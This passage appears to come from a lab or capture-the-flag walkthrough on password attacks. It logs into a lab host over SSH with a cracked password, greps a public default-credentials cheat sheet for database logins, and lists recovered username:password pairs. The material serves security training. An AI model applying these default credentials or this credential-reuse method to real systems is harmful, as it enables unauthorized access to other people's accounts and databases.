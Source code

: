 This took me 15 min to scan, can't imagine how long would it take if you don't know that it is related to batman:
So as we obtained password: B@tm@n2022! we can ssh to "sam" with it:
```c
ssh sam@10.129.202.64
```

And flag is in the smb folder


### Password Reuse / Default Passwords

6.  Use the user's credentials we found in the previous section and find out the credentials for MySQL. Submit the credentials as the answer. 
(Format: username:password)

First we need to download cheatsheet: https://github.com/ihebski/DefaultCreds-cheat-sheet
```c
grep 'SQL' DefaultCreds-Cheat-Sheet.csv

IBM,SQLDBA,<blank>
IBM,SQLUSER,<blank>
MSSQL (mssql),ADONI,BPMS
MSSQL (mssql),sa,<blank>
MSSQL (mssql),sa,password
MSSQL (mssql),sa,Password123
MSSQL (mssql),sa,sa
MSSQL (mssql),sa,sqlserver
MySQL,admin@example.com,admin
MySQL,root,<blank>
MySQL (ssh),root,root
MySQL,superdba,admin
Oracle,PLSQL,SUPERSECRET
Pelco DS SQL (v7.x.x),sa,LETmein333
PostgreSQL,postgres,<blank>
Scrutinizer (MySQL),scrutremote,admin
Sybase,DBA,SQL
Wedge Networks (SQL DB),root,wecandoit
```

The username and password are: superdba:admin

Then using the creds for sam, ssh to sam again:
```c
cat foundusers.list 
john:november
dennis:rockstar
chris:789456123
Guest
sshd
cassie:12345678910
jerome
Administrator
sam:B@tm@n2022!
```
